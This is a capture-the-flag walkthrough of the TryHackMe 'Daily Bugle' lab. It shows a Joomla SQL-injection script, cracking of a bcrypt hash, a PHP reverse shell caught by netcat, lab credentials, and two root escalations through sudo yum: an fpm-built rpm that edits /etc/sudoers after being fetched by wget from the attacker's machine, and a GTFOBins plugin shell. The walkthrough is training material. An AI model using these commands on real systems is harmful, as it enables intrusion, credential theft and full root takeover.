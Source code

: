 # Daily Bugle

**Room Link:** [https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle)



### **Deploy**

**Access the web server, who robbed the bank?**

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Initial Shell

```
nmap -A 10.10.116.159
```

<figure><img src="../../.gitbook/assets/image (18) (2).png" alt=""><figcaption></figcaption></figure>



**Python Script**

```
git clone https://github.com/stefanlucas/Exploit-Joomla.git 
cd Exploit-Joomla/ 
python3 joomblah.py http://10.10.116.159
```

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

```
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session

```

### Cracking the hash

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

We can  now login to Joomla with the credentials we have found

```
Username: jonah
Password: spiderman123
```

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

### Reverse Shell

All I did was follow this tutorial to get a reverse shell.&#x20;

**Tutorial:** [https://www.hackingarticles.in/joomla-reverse-shell/](https://www.hackingarticles.in/joomla-reverse-shell/)

**Kali**

```
nc -lvp 1234
```

**Browser**

<figure><img src="../../.gitbook/assets/image (22) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

Used this PHP reverse shell, just needed to change the IP to my own.

**PHP Reverse Shell:** [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<figure><img src="../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

### Privilege Escalation&#x20;

#### **Option #1 - Create malicious rpm file**

Found a password in the configuration file. The password worked for the user jjameson which was found in the home directory.

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

```
ssh jjameson@10.10.116.159
Password: nv5uz9r3ZEDzVjNu
```



jjamerson is able to run yum with no password as sudo

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**&#x20;

```
echo 'echo "jjameson ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > hack.sh 
git clone https://github.com/jordansissel/fpm.git 
cd fpm/bin/ 
./fpm -n root -s dir -t rpm -a all --before-install /root/hack.sh . 
python2 -m SimpleHTTPServer 81
```

Our fpm file is now created&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**&#x20;

```
cd /tmp/ 
wget http://10.10.160.125:81/root-1.0-1.noarch.rpm 
sudo yum localinstall root-1.0-1.noarch.rpm 
sudo -i
```

<figure><img src="../../.gitbook/assets/image (19) (2).png" alt=""><figcaption></figcaption></figure>

#### **Option #2 -** Spawn interactive root shell by loading a custom plugin

**Exploit Link:** [https://gtfobins.github.io/gtfobins/yum/](https://gtfobins.github.io/gtfobins/yum/)

Just had to copy paste from gtfobins and it worked right away

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

<figure><img src="../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

